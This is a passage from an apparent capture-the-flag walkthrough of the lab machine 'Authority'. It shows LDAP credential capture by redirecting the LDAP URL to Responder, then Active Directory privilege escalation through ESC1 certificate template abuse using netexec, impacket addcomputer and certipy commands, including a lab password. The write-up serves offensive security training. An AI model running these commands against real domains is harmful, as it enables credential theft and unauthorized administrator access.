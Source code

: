 ## Exploitation
- But the password worked on `Configuration Manager`
- Now I can see the appropriate domain name and some info on ldaps
![Pasted image 20250226013045.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250226013045.png?raw=true)
- From `Configuration Editor` I learnt about another user `svc_ldap`
![Pasted image 20250226013359.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250226013359.png?raw=true)
- Also LDAP proxy password is hidden and cannot be viewed in this GUI. In theory on changing the ldap url with my ip and the protocol to `ldap` I can get the password in clear text
- I Changed the`LDAP URLs` to  `ldap://10.10.14.16:389`
![Pasted image 20250226014717.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250226014717.png?raw=true)
- On other side opened Responder
```bash
sudo responder -I tun0
```
- Got the password 
![Pasted image 20250226014855.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250226014855.png?raw=true)
- This password works for the user `svc_ldap` and the user has both `smb` and `winrm` permission.
- Got the user flag
![Pasted image 20250226015623.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250226015623.png?raw=true)

## Privilege Escalation
- When I run certipy for to enumerate ADCS, the output shows that there is a vulnerable template called `CorpVpn` . This template paves the path for us to exploit ESC1.
![Pasted image 20250226164410.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250226164410.png?raw=true)
- I can exploit this by adding a computer and requesting a certificate for `upn:` `administrator` 
### Abusing ESC1:
	- I have to enumerate for computers, The setting that allows a user to add a computer to the domain is the `ms-ds-machineaccountquota`
	- The same we have done earlier in [[2.4-Support]]  box. I can enumerate for this using `netexec` using module `maq` 
```bash
netexec ldap authority.htb -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' -M maq
```
![Pasted image 20250226165046.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250226165046.png?raw=true)
- Now I can add a new computer to the dc using `addcomputer` a impacket's tool
```bash
addcomputer.py 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -method LDAPS -computer-name Emp5r0R -computer-pass 'Password123!' -dc-ip 10.10.11.222
```
![Pasted image 20250226165435.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250226165435.png?raw=true)
- Here I added a computer named `Emp5r0R` to the DC now I can request certificate for `administrator` as computer `Emp5r0R` 
```bash
certipy req -username 'Emp5r0R$' -password 'Password123!' -ca AUTHORITY-CA -dc-ip 10.10.11.222 -template CorpVPN -upn administrator@authority.htb -dns authority.htb
```
![Pasted image 20250226165452.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250226165452.png?raw=true)
- I tried to authenticate with the certificate but It failed
```bash
certipy auth -pfx administrator_authority.pfx -dc-ip 10.10.11.222
```
![Pasted image 20250226165559.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250226165559.png?raw=true)
- Apparently,it happens because “the DC isn’t properly set up for PKINIT and authentication will fail”
- To workaround this I can use something like `passthecert`attack but for that I need the certificate and  key separately. I can extract the same with certipy
- Getting key: